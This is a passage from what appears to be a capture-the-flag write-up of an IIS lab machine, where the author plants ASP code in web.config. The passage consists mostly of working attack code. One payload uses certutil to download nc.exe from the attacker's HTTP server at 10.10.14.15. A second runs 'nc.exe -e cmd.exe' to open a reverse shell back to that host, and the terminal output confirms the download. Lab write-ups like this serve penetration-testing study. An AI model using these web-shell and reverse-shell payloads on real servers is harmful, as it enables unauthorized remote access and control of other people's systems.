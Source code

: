 And I fetched it again, and got the folloiwng : `bounty\merlin`
So, it works!

### Open reverse shell

I modified `aspx` code part to download `nc.exe` file from kali.

```xml
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
        Set cmd = wShell.Exec("cmd /c certutil.exe -urlcache -split -f http://10.10.14.15:8000/nc.exe C:\Users\Public\Downloads\nc.exe") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>
```

I prepared `nc.exe`.

```swift
┌──(kali㉿kali)-[~/htb]
└─$ locate nc.exe              
/usr/share/seclists/Web-Shells/FuzzDB/nc.exe
/usr/share/windows-resources/binaries/nc.exe
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ cp /usr/share/windows-resources/binaries/nc.exe .
                                                                           
┌──(kali㉿kali)-[~/htb]
└─$ python -m http.server    
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
10.10.10.93 - - [12/Jan/2025 19:18:44] "GET /nc.exe HTTP/1.1" 200 -
10.10.10.93 - - [12/Jan/2025 19:18:45] "GET /nc.exe HTTP/1.1" 200 -

```

Then, it successfully downloaded the file.

```yaml
****  Online  ****
  0000  ...
  e800
CertUtil: -URLCache command completed successfully.
```

Now, it's time to open a reverse shell using the uploaded `nc.exe`.
I edited `web.config` again.

```xml
<%
Response.write("-"&"->")
Response.write("<pre>")
Set wShell = CreateObject("WScript.Shell")
        Set cmd = wShell.Exec("cmd /c C:\Users\Public\Downloads\nc.exe -e cmd.exe 10.10.14.15 9000") 
output = cmd.StdOut.ReadAll()
Set cmd = Nothing
Set wShell = Nothing

Response.write(output)
Response.write("</pre><!-"&"-")
%>
```